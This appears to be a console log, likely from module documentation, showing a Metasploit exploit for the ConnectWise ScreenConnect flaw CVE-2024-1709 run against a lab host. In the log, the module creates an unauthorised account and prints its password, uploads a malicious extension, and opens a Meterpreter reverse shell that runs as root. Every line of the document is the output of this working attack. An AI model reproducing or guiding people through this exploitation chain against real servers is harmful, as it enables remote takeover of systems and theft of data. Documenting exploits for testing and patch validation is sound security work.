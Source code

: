 ```
[!] Did not locate the __VIEWSTATEGENERATOR.
[*] Created account: mvyzbmti:HhstWDEb59XYRfME (Note: This account will not be deleted by the module)
[!] Could not locate anti forgery token after login with admin credentials.
[*] Uploaded Extension: 347933e7-dbaf-1c86-eca1-2a873c31b04d
[*] Sending stage (3045380 bytes) to 192.168.86.72
[*] Removing Extension: 347933e7-dbaf-1c86-eca1-2a873c31b04d
[+] Deleted App_Extensions/pxstqhwe.ashx
[*] Meterpreter session 4 opened (192.168.86.42:4444 -> 192.168.86.72:36862) at 2024-02-22 14:47:33 +0000

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.86.72
OS           : Ubuntu 18.04 (Linux 5.4.0-84-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/opt/screenconnect
meterpreter > exit
[*] Shutting down session: 4

[*] 192.168.86.72 - Meterpreter session 4 closed.  Reason: User exit
msf exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) >
```
